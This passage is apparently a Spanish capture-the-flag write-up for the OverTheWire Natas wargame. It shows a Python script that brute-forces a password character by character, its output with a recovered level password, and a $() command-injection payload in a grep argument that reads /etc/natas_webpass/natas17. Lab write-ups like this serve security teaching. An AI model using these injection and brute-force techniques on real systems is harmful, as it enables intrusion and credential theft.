 ```
#     if is_true(i):
#         chars = chars + i
# print chars

chars = "BEHINORWacehijmnpqtw03569"
i=1
passwd = ""
while len(passwd) < 32:
    for c in chars:
        if is_true(passwd + c):
            passwd = passwd + c
            print passwd
```

Ejecuto:

W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
[...]

natas16 : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# natas16

Este caso es una complicación de natas9 y natas 10 y se resuelve con una lógica similar al anterior. Se ejecuta un grep más sanitizado pero de la fuente resulta bastante obvio que se puede inyectar código con $(). La grecia está en cómo hacerlo...

grep -i "<texto sanitizado>" dictionary.txt
grep -i "$(echo injections)" dictionary.txt da como resultado "injections"

A partir de ahí podemos empezar a buscar "letra a letra" en el fichero `/etc/natas_webpass/natas17`

`$(grep <c> /etc/natas_webpass/natas17)`

Completo sería:

`grep -i "$(grep <c> /etc/natas_webpass/natas17)injections"` dictionary.txt

¿Por qué se añade injections? Porque si el resultado de $() es nulo, seguirá apareciendo injections como resultado final. Sin embargo, si $() encuentra algo, el resultado final será nulo (porque no hay ningún "prefijo" que añadido a injections de resultado)

A partir de ahí, hay que crear un script similar al del caso anteior.
